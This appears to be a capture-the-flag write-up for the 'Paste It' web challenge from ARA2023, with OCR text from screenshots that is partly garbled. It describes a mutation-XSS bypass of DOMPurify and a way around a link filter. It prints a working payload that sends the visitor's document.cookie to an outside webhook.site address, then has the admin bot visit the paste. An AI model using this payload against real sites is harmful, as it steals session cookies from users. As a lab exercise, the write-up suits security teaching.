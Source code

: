 # Paste It
> I made my own "Pastebin", its called "Paste It". It's 100% Free and 101% Secure. What you waiting for? share your paste to your friend right now!.

## About the Challenge
Provided the website along with the source code (You can get the source code [here](web_pasteit.zip)). The website has a function to enter a link that will be shared, and later our input results can be shared with other people


[Image extracted text: Paste
links
and
text together!
Nrite
here
http: / /example. com
Submit]


## How to Solve?
After checking the source code there is `DOMPurify` which makes us unable to enter the XSS payload directly into the form. This can be bypassed by referring to this [website](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

Then there is also a filter if the input contains the string `http` or `www.` Then it will be replaced with `a` tag. but this can still be bypassed by separating between `http` or using a double slash `//`


[Image extracted text: module.exports
makeHyperLink(text )
check if text contains
link
if(text.includes("http'
text.includes( "WWW .
if it
does,
return the text with the link wrapped in
an
anchor
return text replace( / (http]www. ) |S+/g,
match)
F>
<a
class-"text-blue
600 underline" href_"
{match}">f{match}</a>
return text;
tag]


So the final payload is:
```
<math><mtext><table><mglyph><style><!--</style><img title="--></mglyph><img src=1
onerror=window.location.replace('htt'+'ps://webhook.site/?test='+document.cookie)>;">
```

And then after XSS payload works successfully, then give an `id` to the admin by requesting the endpoint `/api/report` with the body `id`


[Image extracted text: router.post( ' /api/report
async (req,
res)
27
const
id
req.body;
if (id)
await bot.reportPaste(id)
then(
=>
res. send
"message
"Paste reported.
Admin will
check it
soon.
success"
"true'
}) )
catch(e
res.status
404`
send(response(
An
error occurred
else {
return
res.status(401
send(response
'Please fill out all the required fields! '));
catch (error_
return
res.status(500) . send(response( ' Internal
server
error' ) )
try]


Check the webhook and there will be a flag on `Request Details`


[Image extracted text: Request Details
Permalink
Raw content
Expont as-
GET
https Ilwebhook site/ZbbegOae-7e2d-4754-8dfd-aa2f03f9a16e/?test-flag-ARA2023{proTot
yp3_pOIIUt1On_g4Dg3t_t0_93t_XSS}
Host
103.152.242.116 whois
Date
02/26/2023 10.29.27 AM
9 hours ago)
Size
bytes
7305648e-ae7a-4aa6-bb08-d7cOTateOe01
Files]


```
ARA2023{pr07otyp3_p0llUt10n_g4Dg3t_t0_g3t_XSS}
```